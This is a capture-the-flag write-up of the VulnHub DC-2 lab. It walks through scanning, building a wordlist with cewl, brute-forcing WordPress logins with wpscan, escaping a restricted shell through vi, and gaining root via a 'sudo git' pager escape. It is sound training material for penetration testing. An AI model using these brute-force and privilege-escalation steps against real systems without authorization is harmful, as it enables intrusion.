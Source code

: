 ```yaml
---
layout: single
title: DC-2 Writeup
tags: vulnhub
date: 2020-05-23
classes: wide
excerpt: DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. 
---
```

DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. Please do not forget to set up your hostname for dc-2, you can do this by editing `/etc/hosts` and inserting the IP of your machine then dc-2. `IP	dc-2`
## Recon
### Nmap Scan
```
Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```
### Website 80-TCP
Upon visiting the site, we are greeted by a wordpress-type of a site and it seems that one of the tab in the navigation bar is the FLAG.

![f6f89e5a77d41206f1b806ade2ee3367.png](/blog/assets/images/DC-2/1eaeca1fa6cf4cdfbb50a9e0bdc98c36.png)

Hmmm, it looks like its hinting us to use a tool called `cewl`.
Technically, Cewl is a tool that is used to generate wordlists by going through the site you have given it to visit which means it makes a list of possible usernames,passwords and etc.

using the command `cewl http://dc-2 -w wordlist.txt` it generated a file that contains words, because of the hint in the FLAG 1 I think we need to bruteforce for credentials.

We can bruteforce wordpress credentials by using `wpscan` a tool use for enumerating wordpress and its components it also supports credential bruteforcing.

To bruteforce for the credentials use `wpscan --url URL -P wordlist.txt` and wait for a while.
```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
 
 ### User
 
 To get our initial foothold let's login to the wordpress portal first by visiting `http://dc-2/wp-admin/`.
 
 Looking around the site it seems that we can't find a way to gain foothold here but alas we have found another FLAG in the pages tab.
 
![c30c5f192fe37a3ee2c726bab8d9c320.png](/blog/assets/images/DC-2/1c69c8635bbb4f4e8e18e544ab35a558.png)

Hmmmm, another hint huh? it looks like its telling us that there's another way to get in but our nmap scan only has PORT 80 on it. This time let's do a full tcp nmap scan.

![full-tcp.png](/blog/assets/images/DC-2/73ef46075b234daab26526252eabd888.png)

Ahoy! it looks like we have another port which is `7744` let's try to figure out what service is running under that port by doing `nc dc-2 7744`. BOOM! we got ourselves a OPENSSH Port maybe this is the entry point that the FLAG 2 was trying to say.

Logging in with tom and his credentials we are in but unfortunately we are in a restricted environment :( fortunately there's still a way for us to get out of this restricted environment, by using `vi` and writing `:set shell=/bin/bash` and `:shell` we can get out of the place.

#### BROOKEN COOOMANDS EVERYWHERE
```
tom@DC-2:~$ id
bash: id: command not found
```
We can fix this, I know we can by setting 
```
export PATH=/usr/local/sbin:/sbin:/usr/sbin:/usr/bin:/bin:/usr/local/games:/usr/games
```
#### Root


![flag3.png](/blog/assets/images/DC-2/6a464bdb055845c28c84742bf8cdc05b.png)

Reading flag3 and again it is hinting us what to do next like the previous flags and right now it seems it is hinting us to change our user to Jerry and we shall do it!

![cbd0b9326f27dfdf87cb793b85a4c17d.png](/blog/assets/images/DC-2/0cbe77f8fcb44de6825b011642c13420.png)

Checking our permissions using `sudo -l` we now find that we can run `git` as root and by using our friendly neighborhood [spiderman](https://gtfobins.github.io/gtfobins/git/). 


![2af2c776c78cbb443f1a6d900d615f33.png](/blog/assets/images/DC-2/387d7d09ac04495e9f9c5b7da9618aa2.png)




We can root the machine  through using 
```
sudo git branch --help config
!/bin/sh
```
```
# whoami
root
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

# 
```










